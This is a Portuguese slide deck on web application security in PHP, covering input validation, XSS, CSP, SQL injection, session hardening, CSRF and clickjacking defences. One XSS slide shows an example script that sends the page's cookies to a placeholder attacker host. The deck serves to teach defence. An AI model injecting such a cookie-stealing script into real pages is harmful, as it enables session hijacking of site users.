 #HSLIDE
# Segurança no desenvolvimento web
<link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Ubuntu+Mono">

#HSLIDE
## Pilares da Segurança da Informação  
- Confidencialidade
- Integridade
- Disponibilidade

## Princípios  
- Segurança em múltiplas camadas
- Considere que cada camada eventualmente falhará
- Forneça o mínimo de informação necessária

#HSLIDE
## Validação de entradas
Considerando que a requisição HTTP pode ser manipulada pelo cliente, toda entrada do usuário deve ser validada.

#HSLIDE
### Proteção
- Para isso, o PHP oferece as extensões ***ctype*** e ***filter***. 
Além disso, a maioria dos frameworks de mercado implementam algum tipo de tratamento/sanitização de dados.
- PHP 7+ oferece ***type declarations*** que permitem especificar o tipo esperado de parâmetros.
Para isso:
```php
declare(strict_types=1);
```
#HSLIDE
## Cross-site scripting (XSS)
Ocorre quando um script inserido por um usuário é armazenado e/ou executado pela aplicação. 

#HSLIDE
### Exemplo
```javascript
<script>
(new Image()).src = “http://urldoatacante/?” + escape(document.cookie);
</script>
```
#HSLIDE
### Tipos
* Armazenado
* Não-persistente
* Baseado em DOM

#HSLIDE
### Consequências
- Roubo de *cookie*/sessão
- Manipulação de DOM
- *Keylogger*
- *Browser exploits*
- Basicamente tudo que o JavaScript permite

#HSLIDE
### Proteção
- [*Same-origin Policy*](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) faz com que apenas códigos do mesmo *origin* (protocolo/domínio/porta) tenham acesso à aplicação, ao mesmo tempo que permite acesso a arquivos externos (uma lib como o [JQuery](https://jquery.com/), por exemplo)
- Filtrar entradas ([*strip_tags*](http://php.net/manual/en/function.strip-tags.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php), [*preg_replace*](http://php.net/manual/en/function.preg-replace.php))
- Escapar as saídas ([*htmlspecialchars*](http://php.net/manual/en/function.htmlspecialchars.php), [*htmlentities*](http://php.net/manual/en/function.htmlentities.php), [*filter_var*](http://php.net/manual/en/function.filter-var.php))
- Aplicar [*Content Security Policy*](https://content-security-policy.com/) (*default-src*, *img-src*, *script-src*) -> eliminar código inline
#HSLIDE
### Testando a CSP
```
Content-Security-Policy-Report-Only
report-uri /caminho/arquivo.php
```

#HSLIDE
## SQL Injection

### Proteção
- Não concatenar dados (parâmetros) com comandos
- Utilizar prepared statements
- Validar entradas
- Escapar caracteres

#HSLIDE
## Gerenciamento de estado

### Proteção
- Usar HTTPS
- Definir *secure* e *HttpOnly* *flags*
- Prevenir XSS
- [Alterar](http://php.net/manual/en/function.session-regenerate-id.php) ID de sessão
- Armazenar informação do usuário na sessão (*headers*)
- Detectar sequestro de sessão
- Usar [HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet) para dificultar o roubo de sessão

#HSLIDE
### Diretivas
```php
session.use_strict_mode = true;
session.cookie_secure = true;
session.use_only_cookies = true;
session.cookie_httponly = true;

Strict-Transport-Security: max-age=86400; includeSubDomains
```

#HSLIDE
## Cross-site Request Forgery (CSRF)
- Causado por vírus, scam/phishing, site/redirecionamento malicioso

### Proteção
- Não usar GET para operações que envolvam manipulação de dados (porém, o POST também pode ser manipulado)
- Enviar token 
#HSLIDE
### Clickjacking
- Atacante cria página e, através de requisições para o site alvo (usualmente via iframe), aproveita-se da sessão do usuário

#### Proteção
```php
header(‘X-FRAME-OPTIONS’, ‘DENY’); //ou SAMEORIGIN
```

#HSLIDE
## Ferramentas
- [Arachni web scanner](http://www.arachni-scanner.com/)
- [Dependencies security checker](https://github.com/sensiolabs/security-checker)

#HSLIDE
## Referências
[OWASP](https://www.owasp.org)
